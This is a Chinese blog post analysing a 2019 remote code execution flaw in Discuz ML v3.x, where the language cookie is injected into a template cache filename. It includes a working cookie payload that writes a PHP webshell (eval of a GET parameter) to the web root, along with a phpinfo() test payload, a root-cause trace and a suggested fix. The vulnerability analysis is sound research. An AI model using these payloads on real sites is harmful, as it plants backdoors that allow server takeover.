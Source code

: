 ```yaml
---
title: "Discuz Ml v3.x 代码执行分析"
date: 2019-07-11T20:48:12+08:00
draft: false
tags: ['exec','code']
categories: ['代码审计']
---
```

昨天晚上Discuz Ml爆出了漏洞，今天来分析一波。

<!--more-->

## exp

修改Cookie中的xxxx_language字段为以下内容即可

```php
%27.+file_put_contents%28%27shell.php%27%2Curldecode%28%27%253c%253fphp+%2520eval%28%2524_%2547%2545%2554%255b%2522a1%2522%255d%29%253b%253f%253e%27%29%29.%27
```

访问网站首页则会在根目录下生成木马文件,shell.php 密码为a1

![20190711205534.png](https://ae01.alicdn.com/kf/UTB8_Dhrw9bIXKJkSaef761asXXaa.png)

## 定位漏洞位置

解码exp

```
'.+file_put_contents('shell.php',urldecode('<?php+ eval($_GET["a1"]);?>')).'
```

修改exp为`_language=1.1.1;`使其报错。

![20190711210101.png](https://ae01.alicdn.com/kf/UTB8Hrllw__IXKJkSalU761BzVXat.png)

定位到653行

![20190711211456.png](https://ae01.alicdn.com/kf/UTB8TMXHw1vJXKJkSajh7637aFXaX.png)

关键代码644行
```php
$cachefile = './data/template/'.DISCUZ_LANG.'_'.(defined('STYLEID') ? STYLEID.'_' : '_').$templateid.'_'.str_replace('/', '_', $file).'.tpl.php';
```
`cachefile`变量是缓存文件，将其写入到`/data/template/`目录下，并且由`DISCUZ_LANG`拼接，追踪下`DISCUZ_LANG`的值
2088-2096行

```php
global $_G;
if($_G['config']['output']['language'] == 'zh_cn') {
return 'SC_UTF8';
} elseif ($_G['config']['output']['language'] == 'zh_tw') {
return 'TC_UTF8';
} else {
//vot !!!! ToDo: Check this for other languages !!!!!!!!!!!!!!!!!!!!!
/*vot*/			return strtoupper(DISCUZ_LANG) . '_UTF8';
}
```
可以看到`$_G['config']['output']['language']`作为`DISCUZ_LANG`的值

全局搜索`['language']`

source/class/discuz/discuz_application.php 305行，发现是从cookie中拿到language的值

![20190711212635.png](https://ae01.alicdn.com/kf/UTB86WNtw9bIXKJkSaef761asXXaB.png)

那么到这里整个漏洞的流程就很明显了，cookie中`language`参数可控导致`DISCUZ_LANG`可控，从而导致`cachefile`的文件名可被注入代码，最终`include_once`包含一下导致了造成代码执行。

phpinfo验证

`Ov1T_2132_language='.phpinfo().';`

![20190711214222.png](https://ae01.alicdn.com/kf/UTB8HphiwYnJXKJkSahG760hzFXaN.png)

## 修复建议

截止到本文发布之前，补丁还没有出来。

建议修改source/function/function_core.php 644行为

```php
/*vot*/	$cachefile = './data/template/'.'sc'.'_'.(defined('STYLEID') ? STYLEID.'_' : '_').$templateid.'_'.str_replace('/', '_', $file).'.tpl.php';
```
 删除可控变量

## 写在文后

其实从漏洞点的注释上来看就知道这是一个未完成的部分，毕竟还是`TODO`，开发人员得背锅。不过我怎么没有这种好运气呢，呜呜呜😭

